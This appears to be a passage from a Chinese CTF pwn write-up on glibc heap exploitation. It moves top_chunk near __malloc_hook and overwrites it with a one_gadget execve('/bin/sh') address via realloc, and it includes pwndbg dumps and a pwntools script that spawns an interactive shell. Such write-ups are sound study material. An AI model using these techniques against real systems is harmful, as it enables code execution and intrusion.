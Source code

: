 可以看到我们已经可以拿出`main_arena`，由于只有当size为`0x0000000000000055`才能申请出来，所以几率应该是`1/3`。

然后我们可以将`top_chunk`指向`&lt;_IO_wide_data_0+296&gt;`，因为那里有一个`天然的size`：

```
pwndbg&gt; x/8gx 0x7ff5bb0bbb00-0x20-8
0x7ff5bb0bbad8 &lt;_IO_wide_data_0+280&gt;:    0x0000000000000000    0x0000000000000000
0x7ff5bb0bbae8 &lt;_IO_wide_data_0+296&gt;:    0x0000000000000000    0x00007ff5bb0ba260
0x7ff5bb0bbaf8:    0x0000000000000000    0x00007ff5bad7ce20
0x7ff5bb0bbb08 &lt;__realloc_hook&gt;:    0x00007ff5bad7ca00    0x0000000000000000
```



## 劫持hook

当我们成功劫持`top_chunk`后，只要把`unsorted bin`用完，那么程序就会从`top_chunk`里面切割内存给我们，这样我们就能劫持下面的`__malloc_hook`了。

```
add(0x48, 0, '' * 0x3b + p64(main_arena_addr - 0x28))
add(0x50, 2, 'n')
add(0x50, 2, 'n')
add(0x50, 2, 'n')
'''
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''
add(0x50, 2, p64(libc_addr + 0xf1147) + p64(libc_addr + libc.symbols['realloc'] + 20))

sh.sendlineafter('choice &gt;&gt; n', '1')
sh.sendlineafter('Size : ', str(1))
sh.sendlineafter('index: ', str(1))

sh.interactive()
```



## 完整代码

概率是`1/3` 。
